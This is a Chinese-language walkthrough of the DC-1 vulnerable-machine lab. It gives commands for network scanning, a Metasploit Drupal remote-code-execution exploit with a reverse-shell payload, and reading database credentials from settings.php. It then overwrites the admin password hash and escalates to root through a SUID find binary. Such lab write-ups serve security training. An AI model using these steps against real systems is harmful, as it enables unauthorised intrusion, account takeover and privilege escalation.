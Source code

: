 # DC1

配置环境vmware17 + nat网络配置

下载地址:[DC and Five86 Series Challenges - DC-1](https://www.five86.com/dc-1.html)

攻击机kali与其在同一网段下 ip:192.168.31.131

### 信息收集

```bash
arp-scan -l #内网探测，扫描目标ip
```

![image-20231128213648254](http://111.229.225.13:81/i/2023/11/28/zc0qys-2.png)

发现**目标ip**192.168.31.135

使用nmap对目标进行扫描

```bash
nmap -T4 -sV -O -A -P 192.168.31.135
```

![image-20231128214040148](http://111.229.225.13:81/i/2023/11/28/zecwgv-2.png)

发现开放端口80，22，111

先访问80的http服务

![image-20231128214143785](http://111.229.225.13:81/i/2023/11/28/zez12z-2.png)

发现了Drupal系统

### 漏洞利用

寻找历史漏洞

![image-20231128214246111](http://111.229.225.13:81/i/2023/11/28/zfkvgw-2.png)

使用msf查看有没有此漏洞的exp利用

```bash
msfconsole
search Drupal
```

![image-20231128214359405](http://111.229.225.13:81/i/2023/11/28/zghm8s-2.png)

选择第二个，远程命令执行

```bash
use 1
```

![image-20231128214543280](http://111.229.225.13:81/i/2023/11/28/zhcewo-2.png)

设置目标ip以及payload

```bash
set RHOST 192.168.31.135
set payload php/meterpreter/reverse_tcp #上图中默认的payload =>defaulting to php/meterpreter/reverse_tcp
```

开始利用

```bash
exploit
```

等待一下

![image-20231128214842816](http://111.229.225.13:81/i/2023/11/28/zj4nxa-2.png)

使用shell，然后利用python 创建交互式shell

```bash
shell
python -c 'import pty;pty.spawn("/bin/bash");'
```



![image-20231128215005647](http://111.229.225.13:81/i/2023/11/28/zk3i2c-2.png)

### 内网信息收集

查看信息

![image-20231128215113789](http://111.229.225.13:81/i/2023/11/28/zkqzak-2.png)

![image-20231128215533209](http://111.229.225.13:81/i/2023/11/28/zn8oz0-2.png)

翻译过来，就是让你去找配置文件

这里采用find命令

```bash
find ./ -type f -name "*config*" -o -name "*setting*"#从此目录下递归查找文件名带有config或者setting的文件
```

![image-20231129161547417](http://111.229.225.13:81/i/2023/11/29/qpvwcx-2.png)

经查找在 ./sites/default/settings.php 有东西

```bash
cat ./sites/default/settings.php
```

![image-20231129161725925](http://111.229.225.13:81/i/2023/11/29/qqvv3o-2.png)

### 修改数据库密码

数据库账号密码

进入数据库

```bash
mysql -udbuser -pR0ck3t
```

查看数据

```mysql
show databases;
```

![image-20231129162100282](http://111.229.225.13:81/i/2023/11/29/qt3w6p-2.png)

切换数据库

```mysql
use drupaldb;
```

查看表

```mysql
show tables;
```

![image-20231129162315358](http://111.229.225.13:81/i/2023/11/29/que57w-2.png)

```mysql
select * from users;
```

![image-20231129162429016](http://111.229.225.13:81/i/2023/11/29/qv4827-2.png)

在这里可以发现密码做了加密处理，所以必然有加密函数，可以通过加密一段密码替换原有的密码从而使用管理员身份登录

```bash
find ./ -type f -name "*password*"
```

![image-20231129162656851](http://111.229.225.13:81/i/2023/11/29/qwf88z-2.png)

置换密码

```mysql
update users set pass = "$S$DM/Wwb8I3NnMzCf4bGsGzoNV0tUQzvxJKTCN3E4mE2CQoODuQdtL" where uid = 1;
```

![image-20231129163106371](http://111.229.225.13:81/i/2023/11/29/qz3n12-2.png)

登录网页

admin 123456

![image-20231129163220671](http://111.229.225.13:81/i/2023/11/29/qzs4kp-2.png)

![image-20231129163311309](http://111.229.225.13:81/i/2023/11/29/r0bmmb-2.png)

![image-20231129163353869](http://111.229.225.13:81/i/2023/11/29/r0lg3e-2.png)

翻译为，特殊的PERMS 将帮助查找passwd——但是您需要-exec 该命令来确定如何获取shadow中的内容。

### 权限提升

再使用find命令尝试提权

```bash
find / -perm -u=s -type f  #从根目录找具有root权限的文件
```

![image-20231129164018713](http://111.229.225.13:81/i/2023/11/29/r4jqkq-2.png)

发现find命令存在root权限，利用findml进行提权

```bash
find ./ 存在的文件名 -exec  "/bin/sh" \;
```

![image-20231129164506185](http://111.229.225.13:81/i/2023/11/29/r7fnky-2.png)

成功提权

找flag

```bash
find / -type f -name "*flag*"
```

![image-20231129164749788](http://111.229.225.13:81/i/2023/11/29/r8vzz3-2.png)

### 总结

1. nmap信息收集,wappalyzer插件找cms

   ```bash
   nmap -T4 -sV -O -A -P ip //T4速度 -sV查看服务 -O操作系统 -p端口 	     将所有主机视为在在线，跳过主机发现
   ```

   

2. 漏洞利用Drupal 

   ```bash
   msfconsole
   msf6>search Drupal
   msf6>use 1
   msf6>set RHOST 目标ip
   msf6>set payload 默认payload
   meterpreter>shell
   python -c 'import pty;pty.spawn("/bin/bash");' 使用python创建一个交互式shell
   ```

   

3. find命令进行信息收集

4. 数据库改密码

   ```mysql
   update 表名 set 字段 = "修改的值" where 对应其他字段 = "当前存在的值"
   ```

5. 权限提升suid提权